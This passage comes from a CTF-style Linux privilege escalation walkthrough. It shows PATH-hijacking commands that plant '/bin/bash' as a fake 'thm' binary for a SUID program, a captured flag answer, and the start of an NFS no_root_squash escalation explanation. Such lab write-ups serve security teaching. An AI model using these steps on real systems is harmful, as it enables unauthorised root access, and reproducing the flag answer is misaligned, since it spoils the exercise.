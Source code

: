 
cd /home
cd murdoch
./test
```

or 

![img](/assets/img/lpe66.png)

```
rm thm
echo "/bin/bash" > thm
chmod 777 thm
ls -la
cd /home/murdoch
./test
```

```
ls -la
```

3. What is the content of the flag6.txt file?

```
cd /home/matt
cat flag6.txt
THM-736628929
```


---

Task 11 - Privilege Escalation: NFS
---

Privilege escalation vectors are not confined to internal access. Shared folders and remote management interfaces such as SSH and Telnet can also help you gain root access on the target system. Some cases will also require using both vectors, e.g. finding a root SSH private key on the target system and connecting via SSH with root privileges instead of trying to increase your current user’s privilege level.

Another vector that is more relevant to CTFs and exams is a misconfigured network shell. This vector can sometimes be seen during penetration testing engagements when a network backup system is present.

```NFS (Network File Sharing)``` configuration is kept in the ```/etc/exports``` file. This file is created during the NFS server installation and can usually be read by users.



![img](/assets/img/lpe60.png)

The critical element for this privilege escalation vector is the ```“no_root_squash” option``` you can see above. 

By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. 

```If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.```

We will start by enumerating mountable shares from our attacking machine.

![img](/assets/img/lpe61.png)

```